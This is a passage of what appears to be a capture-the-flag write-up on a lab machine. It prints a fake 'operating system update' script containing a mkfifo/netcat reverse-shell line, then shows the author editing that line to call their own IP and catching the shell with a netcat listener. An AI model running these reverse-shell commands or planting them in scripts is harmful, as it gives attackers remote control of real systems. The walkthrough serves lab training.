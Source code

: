 ```
batman@owaspQuiz:/home/munojr$ cat /opt/munoupdate.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.17.62 8000 >/tmp/f
#!/bin/bash
startupdate() {
echo
echo "-----------------------------------------"
echo ">>> Command Execting Was Successful. <<<"
echo "-----------------------------------------"
echo
}

start() {
echo
echo "***>>> Updating The Operating System <<<***"
echo
}

exitUpdate() {
echo
echo "-------------------------------------------------------"
echo ">>> Operating System Update Has Been Completed <<<"
echo "-------------------------------------------------------"
echo
exit 1
}

#calls the functions
start
startupdate
exitUpdate
```

-- -

This script has some update functions but there is reverse shell payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.17.17.62 8000 >/tmp/f
```

-- -

We can use the payload and listen for the munojr shell, in my case i changed into the following ip address

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.11.230 1122 >/tmp/f
```

and then listening to with netcat.

  

>When you start netcat you have to wait for one minute so that you can have a reverse shell.

  
  